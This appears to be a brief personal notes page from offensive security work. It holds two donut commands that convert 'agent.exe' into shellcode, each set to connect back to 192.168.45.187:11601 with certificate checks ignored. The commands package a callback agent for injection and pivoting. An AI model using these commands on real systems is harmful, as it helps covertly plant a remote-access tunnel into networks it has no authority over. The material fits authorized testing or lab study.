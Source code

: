 # Notes

```bash
donut -f 1 -o agent.bin -a 2 -p "-connect 192.168.45.187:11601 -ignore-cert" -i agent.exe
```

```bash
donut -f 1 -o agent2.bin -a 2 -t -p "-connect 192.168.45.187:11601 -ignore-cert" -i agent.exe
```